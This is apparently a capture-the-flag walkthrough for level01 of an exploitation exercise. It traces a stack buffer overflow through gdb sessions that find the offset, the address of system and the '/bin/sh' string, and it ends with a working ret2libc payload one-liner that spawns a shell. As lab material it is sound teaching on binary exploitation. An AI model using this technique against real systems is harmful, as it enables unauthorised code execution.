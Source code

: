 ## WALKTHROUGH - LEVEL01

---

The binary is waiting for a username which is hard coded as "dat_wil",
afterward it asks for an 100 bytes password and stores it inside a 64 bytes
buffer which gives us an opportunity to overflow.

Later in the main, it stores the content of `EBP-0x8` at the top of the stack:

```sh
0x080485af <+223>:	lea    esp,[ebp-0x8]
```

So we put a breakpoint at this address, and if we pass 64 bytes exactly in the buffer, we can see our A are currently at `EBP-0x12`:

```sh
(gdb) b*0x080485af
(gdb) run < <(python -c 'print "dat_wil\n" + "A" * 64')
(gdb) x/1wx $ebp - 0x12
0xffffd6b6:	0x41414141
```

Which means the next bytes we write will give us control of the stack.

We need to control ret at the end of main function to get execution, there are 3
pop after this instruction to restore our registers which will consume esp 3 times.

So the offset is: **64 + 4 (ret addr) + (3 * pop <reg>) = 80**

We can then overwrite EIP.

We will use a Ret2libc attack to give us a shell, so we need to find the address of the **system** function and the address of a string that contains **"/bin/sh"**.

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) info proc mappings
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so  <==== LIBC in memory

(gdb) find 0xf7e2c000, +9999999, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

Now we need to pass everything to the stack, so the payload will be:

**"dat_wil\n" + "A"\*80 + system address + system return address + system parameters**

```sh
level01@OverRide:~$ cat <(python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7" + "\n"') - | ./level01
```
